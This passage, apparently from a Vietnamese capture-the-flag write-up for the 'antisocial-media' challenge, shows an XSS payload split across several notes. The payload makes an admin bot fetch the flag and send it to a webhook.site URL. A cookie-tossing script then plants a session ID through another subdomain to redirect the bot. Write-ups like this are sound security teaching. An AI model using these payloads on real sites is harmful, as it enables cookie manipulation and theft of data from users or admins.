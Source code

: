 Từ đó mình có thể xây dụng payload sau để chèn vào note và khiến admin fetch flag và đi đến window.name là link webhoook mà mình sẽ gán vào 

```js
const notes = [
  "$`</script>$`/*",
  "*/1;fetch(/*",
  '*/"/flag"/*',
  "*/,{method:/*",
  '*/"post"})./*',
  "*/then(_=>_./*",
  "*/text())./*",
  "*/then(_=>{/*",
  "*/location=/*",
  "*/name+_})//",
];
```

nhưng làm sao để admin bot đi vào trang đang dính xss trên? Ta biết rằng không thể set cookie của admin nên không thể redirect nó tới trang trên. Lúc này thì mình nghĩ ra là sẽ xài web khác để insert js vào và add cookie để redirect

Và mình có payload như sau : 

```js
<script>
const chall = "https://antisocial-media.chall.lac.tf"
const webhook = "https://webhook.site/6f12b62f-17ac-4e07-ba5d-5d01df9ebfa0"
const id = ...
const html = `<img src=x onerror='document.cookie="connect.sid=\${id}; domain=.chall.lac.tf; path=/profile"; window.location="${chall}/profile";'>`;

window.name = "{{webhook}}?";
window.location = "https://purell.chall.lac.tf/level/start?html=" + encodeURIComponent(html);
</script>
```

Trong đó id là connect.sid của trang mình vừa thêm các note XSS vào. Cuối cùng host đoạn script trên và gửi cho admin bot để vào là xong 

Thực hiện đủ các bước thì ta có flag tại webhook
